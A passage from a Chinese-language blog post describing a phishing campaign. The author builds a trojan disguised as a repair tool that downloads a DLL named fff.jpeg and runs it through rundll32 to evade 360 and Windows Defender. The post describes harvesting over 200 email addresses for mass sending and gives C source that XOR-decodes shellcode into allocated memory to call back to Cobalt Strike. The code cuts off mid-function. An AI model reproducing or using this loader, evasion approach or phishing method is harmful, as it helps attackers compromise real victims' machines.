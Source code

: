 ![2019-05-21-17-48-31](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6fcdf905f58a5494844671bde32a4dbf.png)

点击是：

![2019-05-21-17-49-27](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/7bccc6f3ed6e89cc4f64a8221ea8f4c5.png)

提示修复成功，然后程序关闭。

同时，本地机器上会生成一个dll文件：

![2019-05-21-17-49-46](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b3b07b757b4a342d66d061f87e3a9dd3.png)

![2019-05-21-17-50-20](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f9f7a00461c7e7cb8118d28f80aef1ad.png)

进程中也会多出一个rundll32，360不会拦截：

![2019-05-21-17-50-39](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/763ea15d420e5e191b0fc2c45509792d.png)

服务端提供下载的服务器会多出日志：

![2019-05-21-17-50-55](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/6d6ebb55384e48189a727a14972b1d4e.png)

![2019-05-21-17-51-09](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f83bb9204aadcb803b5a0f9af87ac620.png)


## 0x09 发送邮件

邮箱地址通过http://www.skymem.info 采集到200多个，同时也写了一个脚本：


![2019-05-21-17-52-52](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2580fc3f395bf69faf796a3f0f92174f.png)

估计要跑一晚上了，明天看收获吧，如果有的话，继续写。

## 0x10 升级木马

第一版是一个败笔，应该关注更多视觉感受，比如图标、logo，暗示它这个文件是可信的，不应该使用其他程序用作加载器，来达到免杀的效果。如果第二版的木马当作第一版去发，我觉得成功率80%。

但是我觉得光采用反弹cmd的太烂了，木马要像模像样点。

于是，开始对木马进行改造，下载器文件不变，只需要更新服务器上的fff.jpeg这个DLL即可，因为每次运行，都会下载这个DLL，然后用rundll32调用。

我想使得它上线cobaltstrike，绕过Windows Defender基本上没啥问题了，既保证之前的邮件木马可用，又能保证新的代码更新。

重写`rundll32dllfun`即可：

fff.jpeg:

```c
extern "C" _declspec(dllexport) void __cdecl rundll32dllfun(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine,
	int nCmdShow)
{
	CHAR cpu_code[] =
		"\xf5\xe1\x80\x09\x09\x09\x69\x80\xec\x38\xdb\x6d\x82\x5b\x39\x82\x5b\x05\x82\x5b\x1d\x82\x7b\x21...省略部分....\x3e\x38\x27\x38\x30\x27\x38\x3d\x3d\x27\x3f\x30\x09\x09\x09\x09\x09";
	DWORD dwCodeLength = sizeof(cpu_code);
	DWORD dwOldProtect = NULL;
	for (DWORD i = 0; i < dwCodeLength; i++) {
		cpu_code[i] ^= 9;
	}

	PVOID pCodeSpace = VirtualAlloc(NULL, dwCodeLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (pCodeSpace != NULL)
	{
		CopyMemory(pCodeSpace, cpu_code, dwCodeLength);
		Sleep(200);
```